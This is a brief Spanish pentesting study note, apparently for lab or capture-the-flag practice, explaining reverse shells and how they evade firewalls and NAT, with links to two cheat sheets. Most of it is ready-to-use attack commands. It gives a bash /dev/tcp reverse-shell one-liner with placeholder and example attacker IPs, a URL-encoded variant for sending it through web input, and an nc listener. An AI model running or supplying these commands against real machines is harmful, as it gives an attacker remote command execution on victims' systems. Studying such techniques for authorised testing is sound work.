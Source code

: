 Una **reverse shell** sirve para que un atacante obtenga acceso remoto a una máquina víctima.  
La víctima inicia la conexión hacia el atacante, lo que **evade firewalls o NAT**, y le da al atacante una shell para ejecutar comandos remotamente.

--------

[Articulo con one liners que dan sirven para tirar la reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
[Otro articulo de revershell en este saque de groovy](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/#powershell)
El one liner que mas vamos a usar
```
bash -c 'bash -i >& /dev/tcp/IpNuestra/Puerto 0>&1'
Ejemplo: bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'
```

Aveces tenemos que probar poner los & directamente con url enconde por que se pueden mal interpretar con el codigo
```
bash -c 'bash -i >%26 /dev/tcp/IpNuestra/Puerto 0>%261'
Ejemplo: bash -c 'bash -i >%26 /dev/tcp/10.10.16.4/443 0>%261'
```

Mientras tenemos que estar en escucha con [[nc -nlvp 443]]
